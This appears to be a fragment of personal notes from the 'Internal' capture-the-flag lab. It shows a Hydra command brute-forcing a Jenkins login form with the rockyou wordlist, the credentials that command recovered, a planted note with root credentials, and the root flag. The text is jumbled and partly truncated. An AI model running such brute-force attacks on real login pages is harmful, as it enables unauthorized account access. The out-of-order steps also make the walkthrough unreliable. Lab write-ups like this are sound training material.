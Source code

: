 
'''

http://127.0.0.1:1111/login?from=%2F
at this lets try some fuzzer technique
[1111][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-23 19:38:32


ydra 127.0.0.1 -s 1111 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P ~/payloadList/rockyou.txt


cd opt
ls
note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123

root.txt  snap
root@internal:~# cat root.txt 
THM{d0ck3r_d3str0y3r}



'''